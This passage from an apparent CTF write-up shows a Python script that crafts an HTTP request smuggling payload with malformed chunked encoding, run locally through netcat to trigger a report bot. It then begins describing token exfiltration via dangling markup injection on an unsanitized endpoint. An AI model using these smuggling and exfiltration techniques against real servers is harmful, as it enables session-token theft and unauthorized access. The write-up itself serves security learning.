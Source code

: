 ```python
    b"0\r\n" +
    b"\r\n"
)

def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /login HTTP/1.1\r\n" +
    b"Host: localhost\r\n"+
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + 
    b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)

```

I ran the script locally by running `python3 hrs.py | nc localhost 80`. We can verify that a request to `do-report` was made by inspecting the docker container logs (or alternatively point the `url` parameter in the `POST /do-report` endpoint to a self-controlled domain and inspect the request made).

```bash
└─$ docker logs --follow distrib_app_1
[*] Visiting http://localhost:8000/token
[*] Done visiting http://localhost:8000/token
```

*Credits to [zeyu2001](https://www.zeyu2001.com/) for the solution writeup on [flagportal revenge](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2022/web/flagportal-revenge/solve.md), which helped me understand the whole HRS much better! Do checkout his website and his other writeups too :)*

## Data Exfiltration via Dangling Markup Injection
Okay, we have found a way to externally trigger the `POST /do-report` endpoint, but how do we exfiltrate the `req.session.token` data? Remember earlier on when we noticed the use of `puppeteer` and the potential idea of an XSS? Let's look at that!

After some digging around, it seems like the `GET /token?token=<token>` endpoint has unsanitized reflected input when generating a token through `POST /token`.

Initially I tried injecting XSS payloads but all of which seemed to not execute, making me realise that an XSS was (probably) not possible.
